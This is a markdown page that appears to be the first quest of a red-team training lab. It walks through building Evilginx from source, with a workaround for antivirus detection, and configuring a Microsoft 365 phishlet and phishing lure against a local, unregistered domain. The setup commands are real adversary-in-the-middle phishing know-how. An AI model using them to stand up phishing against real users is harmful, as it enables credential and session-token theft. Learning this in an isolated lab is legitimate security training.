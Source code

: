 # Quest 1 - Buckle up!

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

In this tutorial, you will perform basic deployments to set up your environment for the hands-on lab. You will also learn how to install a phishing simulation tool to prepare for the next quest.

## Installation for hands-on lab

### Step 0: Consider using a virtual sandbox to keep your machine "clean"

A common practice for "playing" with hacking tools is to utilize an isolated environment. This can be a virtual machine or a container. This way, you can keep your main machine clean and avoid any unintended consequences. Below are a couple of suggestions.

* Local virtual machines (embedded in your physical device)
    * [Hyper-V on Windows 10](https://docs.microsoft.com/virtualization/hyper-v-on-windows/quick-start/enable-hyper-v) or
    * [VirtualBox](https://www.virtualbox.org/) or similar.
* Remote virtual machines (Hyperscaler options)
    * Spin up environments with [Azure VMs](https://azure.microsoft.com/free/) with free credits or
    * Any other available to you.
* Containerized options
    * Use environments like [Docker](https://www.docker.com/products/docker-desktop) on Windows or
    * Podman on linux.

Our guidance here refers to a windows environment on an Azure VM. You can adjust the steps to your environment.

### Step 1: Install Evilginx3

Install [git](https://git-scm.com/downloads) if you haven't already.

```bash
git clone https://github.com/kgretzky/evilginx2.git
```

> [!IMPORTANT]
> Many of you will run into Defender detections with the executable upon [download](https://github.com/kgretzky/evilginx2/releases). Consider building the tool from source in such cases.

#### Build from source

- Install [golang](https://go.dev/doc/install)
- Restart your terminal and verify the installation with `go version` command.

```bash
cd evilginx2
.\build_run.bat
```

- Allow Access on subsequent Defender firewall prompt like a vigilante in the making.

#### (Alternative) Install the pre-built version

In case you are lucky you can follow the normal install steps:

- Get the latest release from the [releases page](https://github.com/kgretzky/evilginx2/releases) (Assets -> evilginx*-64bit.zip) and follow the [quick start guide](https://help.evilginx.com/docs/getting-started/deployment/local).

- Allow Access on subsequent Defender firewall prompt like a vigilante in the making.

### Step 2: Configure Evilginx3

```bash
config ipv4 127.0.0.1
config domain dsag-red-team.com
```

> [!NOTE]
> hackers use elusive domains like 'microsofttonline.com' to trick users. Outlook and M365 pick up such attempts, but other email clients may not. Note we use a domain that is not registered and only used for this tutorial.

- Find the root certificate in the `User` folder (%USERPROFILE%\.evilginx\crt) and install it on your machine.
- Add this certificate to the Trusted Root Certificate Authorities store of the Current User. Otherwise, you will get a certificate error when accessing the phishing page.

You may need to restart your machine for the changes to take effect.

### Step 3: Create or retrieve a phishlet for your scenario

We will use a sample phishlet for M365 shared by [Jan Bakker](https://github.com/BakkerJan/evilginx3/blob/main/microsoft365.yaml).

- Download it or find it in the `assets` folder of this repository [here](assets/m365-phishlet.yaml).
- Place the phishlet by placing it in `.\evilginx2\phishlets` folder of the prior cloned repos `evilginx2`. It contains the example phishlet.

Restart your instance for the changes to take effect like so:

```bash
q
build_run.bat
```

- Verify the M365 phishlet is now showing up.

> [!TIP]
> Always check for updates on the phishlets and the tool itself. Things are changing rapidly in the security world.

### Step 4: Prepare your phishing lure

```bash
phishlets hostname microsoft365 dsag-red-team.com
phishlets enable microsoft365 
```

#### Enhance hosts file for local testing

```bash
phishlets get-hosts microsoft365
```

- Add the output to your hosts file located at `C:\Windows\System32\drivers\etc\hosts`. You will need admin rights to edit this file.

#### Create your phishing lure

```bash
lures create microsoft365
lures get-url 0
```

- Open the URL in your browser to see the phishing page.
- Check the Evilginx3 console for the captured output so far ("new visitor has arrived" etc.).

## Where to next?

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

[🔝](#)
